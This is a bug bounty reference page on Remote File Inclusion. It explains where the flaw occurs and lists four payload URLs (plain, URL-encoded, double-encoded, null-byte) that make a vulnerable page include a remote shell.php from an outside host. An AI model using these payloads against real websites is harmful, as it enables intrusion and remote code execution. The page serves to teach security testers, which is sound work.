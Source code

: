 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Remote%20File%20Inclusion.md#introduction)

Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts.

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Remote%20File%20Inclusion.md#where-to-find)

- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Remote%20File%20Inclusion.md#how-to-exploit)

1. Basic payload

```
http://example.com/index.php?page=http://daffa.info/shell.php
```

2. URL encoding

```
http://example.com/index.php?page=http%3A%2F%2Fdaffa.info%2Fshell.php
```

3. Double encoding

```
http://example.com/index.php?page=http%253A%252F%252Fdaffa.info%252Fshell.php
```

4. Using Null Byte (%00)

```
http://example.com/index.php?page=http://daffa.info/shell.php%00
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Remote%20File%20Inclusion.md#references)

- [payloadbox](https://github.com/payloadbox/rfi-lfi-payload-list)

